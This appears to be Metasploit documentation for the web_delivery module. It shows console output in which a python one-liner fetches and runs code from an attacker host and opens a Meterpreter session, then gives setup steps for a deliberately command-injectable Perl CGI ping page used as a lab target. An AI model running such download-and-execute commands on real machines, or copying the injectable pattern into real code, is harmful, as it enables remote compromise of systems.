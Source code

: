 ```
[*] Server started.
[*] Run the following command on the target machine:
python -c "import urllib2; r = urllib2.urlopen('http://192.168.2.117:8080/DovbvqRaB'); exec(r.read());"
msf exploit(web_delivery) > sessions -i 1
[*] Starting interaction with 1...

python -c "import urllib2; r = urllib2.urlopen('http://192.168.2.117:8080/DovbvqRaB'); exec(r.read());"
[*] 192.168.2.156    web_delivery - Delivering Payload
[*] Sending stage (38500 bytes) to 192.168.2.156
[*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.156:35840) at 2017-03-05 19:59:44 -0500

^Z
Background session 1? [y/N]  y

msf exploit(web_delivery) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : Ubuntu14
OS           : Linux 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016
Architecture : x64
Meterpreter  : python/linux
meterpreter >
```

## Vulnerable Pages

### Perl cgi

These instructions will create a cgi environment and a vulnerable perl application for exploitation. We used Kali rolling (2016.2) for this tutorial.

#### Setup

In this example, we make a `post` form that pings a user provided IP, which is a typical funtion on many routers and is often abused a similar manner.

1. Enable cgi: `a2enmod cgid`
2. `mkdir /var/www/cgi-bin`
3. Enable folder for cgi execution: add `ScriptAlias "/cgi-bin/" "/var/www/cgi-bin/"` to `/etc/apache2/sites-enabled/000-default.conf ` inside of the `VirtualHost` tags
4. Create the vulnerable page by writing the following text to `/var/www/cgi-bin/example.pl`:

    ```
    #!/data/data/hilled.pwnterm/files/usr/bin/perl
    use CGI qw(:standard);
    $query = new CGI;
    print $query->header( -type=> "text/html"),
      $query->start_html();
    $query->import_names( 'Q' );
    if ( $Q::ip ) {
      print `ping -c 1 $Q::ip`, "<hr>";
    }
    print $query->start_form( -name=>"ping", -method=>"POST", -enctype=>&CGI::URL_ENCODED),
      $query->p("Enter IP to ping:"),
      $query->textfield(-name=>"ip"), #, -id=>"ip"),
      $query->submit(-name=>"submit"),
      $query->end_form(),
      $query->end_html();
    ```
